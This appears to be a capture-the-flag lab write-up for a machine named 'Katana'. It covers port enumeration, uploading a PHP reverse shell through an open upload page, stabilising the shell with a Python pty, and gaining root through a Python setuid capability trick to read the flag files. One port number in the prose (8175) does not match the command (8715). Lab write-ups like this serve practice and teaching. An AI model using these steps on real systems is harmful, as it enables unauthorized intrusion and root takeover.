

# Katana

**IP Address:** 192.168.76.83

## Enumeration
### Open Ports
| Port #| Service | Details  |
|:------|:---------|:---------|
| 21    | ftp      | vsftpd 3.0.3 |
| 22    | ssh      | OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0) |
| 80    | http     | Apache httpd 2.4.38 ((Debian)) |
| 7080  | http     | LiteSpeed | 
| 8088  | http     | LiteSpeed httpd |
| 8715  | http     | nginx 1.14.2 |

## Exploitation
### Exploit Details (File Upload)
* **Name** - File Upload
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

The URL http://192.168.76.83:8088/upload.html allows us to upload a PHP reverse shell. The file is then transferred to the webserver running on port 8175 where it can be executed. 


Commands
```bash
curl "http://192.168.76.83:8715/katana_shell.php"
python -c 'import pty;pty.spawn("/bin/bash")'
whoami
cat /var/www/local.txt
```




## Privilege Escalation
### Exploit Details (File Capabilities (Python))
* **Name** - File Capabilities (Python)
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * https://gtfobins.github.io/gtfobins/python/

Commands
```bash
/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'
whoami
cat /root/proof.txt
```

